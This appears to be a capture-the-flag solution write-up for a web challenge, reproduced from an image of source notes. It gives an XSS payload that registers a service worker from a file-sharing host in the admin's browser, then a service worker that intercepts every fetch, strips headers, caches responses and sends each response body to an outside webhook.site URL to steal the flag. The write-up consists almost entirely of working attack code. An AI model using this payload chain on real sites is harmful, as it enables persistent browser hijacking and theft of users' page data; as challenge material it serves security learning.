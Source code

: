# XSS
Use the reflected xss in /play to run a script from a file shared with the admin (allowed by the CSP).
Use the XSS to register a service worker in the admin browser.

```
<script>
navigator.serviceWorker.register('https://filesharing.m0lec.one/upload/e81c51506d9b4e4ca5d609ed0f6e4fe3');
window.setTimeout(()=>document.location = 'https://filesharing.m0lec.one/upload/ffffffffffffffffffffffffffffffff',500);
</script>
```

# Service worker

Example of service worker to get the flag

```
self.addEventListener('fetch', (e) => {
  e.respondWith(
    caches.match(e.request).then((r) => {
      return r || fetch(e.request).then((response) => {

        console.log(response);
        console.log(new Map(response.headers));

        const newHeaders = new Headers();

        const anotherResponse = new Response(response.body, {
          status: response.status,
          statusText: response.statusText,
          headers: newHeaders
        });


        clone = anotherResponse.clone()
        clone.text().then((x)=>fetch('https://webhook.site/9cf73d0f-160a-4f23-a986-70f1bc21b864/'+x).then((r)=>console.log(r)));


        console.log(new Map(anotherResponse.headers));


        return caches.open('static').then(
          (cache) => {
            cache.put(e.request,
              anotherResponse.clone());
            return anotherResponse;
          }
        );
      });
    })
  );
});

```